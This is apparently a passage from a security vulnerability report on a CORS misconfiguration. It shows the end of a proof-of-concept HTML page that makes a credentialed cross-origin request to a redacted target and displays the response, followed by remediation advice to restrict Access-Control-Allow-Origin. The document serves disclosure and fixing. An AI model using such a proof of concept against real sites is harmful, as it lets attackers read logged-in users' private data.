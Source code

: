 ``` 
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "https://██████", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 
</body>
</html>

```

## Suggested Mitigation/Remediation Actions
All the REST Apis should be authenticated and the domain should not trust any other domains. Allow only selected, trusted domains in the Access-Control-Allow-Origin header.



## Attachments
No attachments
